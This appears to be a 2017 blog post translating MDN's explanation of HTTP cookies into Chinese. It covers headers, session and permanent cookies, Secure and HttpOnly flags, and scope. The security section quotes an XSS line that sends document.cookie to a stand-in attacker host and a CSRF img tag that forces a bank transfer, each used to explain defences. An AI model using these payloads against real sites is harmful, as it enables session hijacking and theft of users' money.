 ```yaml
---
layout: post
title: HTTP COOKIE 
date: 2017-02-012
categories: translation
---
```

## HTTP Cookies

一个HTTP cookie(web cookie, browser cookie) 是一小段server 发送给user browser 的data，browser可能会存储它并跟随下一次请求send it back  to the same server.典型的，它用来判断是否两次请求来自同一个browser可以用来保持用户 logged-in。它记住无状态HTTP 协议的stateful info.

Cookies 主要用于以下三种目的：

* Session managemnent(user logins, shapping carts)
* personalization（user preferences）
* Tracking (analyzing user behavior)

Cookies 也会用于通常的client-side 存储。但如果有更好的方法就不会用这一种，现在的browser 有许多可以使用的storage API。由于cookies会伴随每个request发送，这样就会造成额外的开销（尤其表现在移动端）。本地存储的新的API是 web storage API(localStorage sessionStorage)和 indexDB.

## Ceating cookies
当server 接收到一个HTTP request， 它就可以发送一个Set-Cookie header with the response.cookies 通常被存在browser 然后，在随后的跟发到该server的每个请求都会带着cookie,它作为Cookie HTTP header 的内容。额外的，可以设置过期时间和指定的domain , path ,limiting how long and to which site the cookie is sent to

## The Set-Cookie and Cookie headers
 set-cookie response header 是server发给 user agent 的。它长这样子
 
 ```
 Set-Cookie: <cookie-name>=<cookie-value>
 ```
 
 server 告诉client 要存一下这个cookie
 
 ```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
 ```
 
 现在，对于每个发到server的request, browser 都会带上之前server 让存的cookies 使用Cookie header
 
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## Session cookies
我们上面创建的cookie 就是一个session cookie.当client 页面关闭，就会被移除，这些cookie只存在于当前session. 他们没有指定任何Expires 或者 max-age .注意： 大多浏览器通常都有session restoring enabeld, 它会让大部分session cookies 实际上是permanent 好像browser从未被关闭。

## Permanent cookies
不像session-cookie 在client  close就过期，permanent cookies 会在指定的日期（Expires）或者是过了指定时间（Max-Age）过期.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GM
```

## Secure and HttpOnly cookies
一个secure cookie 会被发送当request 使用了SSL和 HTTPS协议.注意， 机密和敏感信息不应该被HTTO cookie传输，因为整个机制是没有安全保证的。从Chrome 52 和ff52 不安全的sites(http:) 不能够设置带有“secure”指令的 cookies。
为了放置 cross-site scripting (XSS)attacks, HTTP-only cookies 是通过Document.cookie XHR request API 都拿不到的cookies的。当你在js脚本中不需要cookie的时候设置该属性。

## Scope of cookies
Domain , Path 指令定义了scope of cookies,具体说就是cookie被返回时的urls

domain 指定了哪些hosts cookie会被发送。如果没有被指定， 默认为当前document location (不包括subdomains). 如果domain 指定了，subdomains 就被包含了。
如果domain = mozilla.org cookies也会被设置在subdomain 像developer.mozilla.org
path 指示了一个在requested resource 中一定会存在的URL path在发送Cookie header 之前。%x2F("/")字符被解释为文件目录分隔符
如果 Path=/docs 被设置了，下列paths都会被match

* "/docs"
* "/docs/Web"

## JS access using Document.cookies
可以使用Document.cookie来创建新的cookie,如果HttpOnly flag不存在的话，就可以用js脚本来创建cookie

```
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

注意更安全的做法放在后面Security 部分。js 脚本可以获得的 Cookies 可能会被XSS 盗取。

## Security

秘密的敏感的信息都不应该使用cookies

## Session hijacking and xss

cookies 用于鉴定用户以及他的认证session. 所以从web app盗取cookie 就导致劫持了认证用户的session。通常的盗取cookies 的方法包括使用Social Engineering 或者开发一个XSS 漏洞在app中。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 属性通过阻止用js脚本获得cookie可以帮助减少这样的攻击

## Cross-site request forgery(CSRF)
考虑一个example。在这个场景下，一个img并不是真的img ，它只是要一个request 去偷取你银行账号里的钱

```
<img src="http://bank.example.com/withdraw?accout=bob&amount=100000&for=mallory">
```

如果你当前登陆了，你的cookie 仍然有效（并且没有其他验证），你就会在HTML加载img时 转移money。有一些tech 可以防止。

* 像XSS 做输入过滤
* 在任何敏感动作之前做认证
* 用于敏感操作的 cookies 应该有一个short lifetime
* OWASP CSRF prevention cheat sheet 
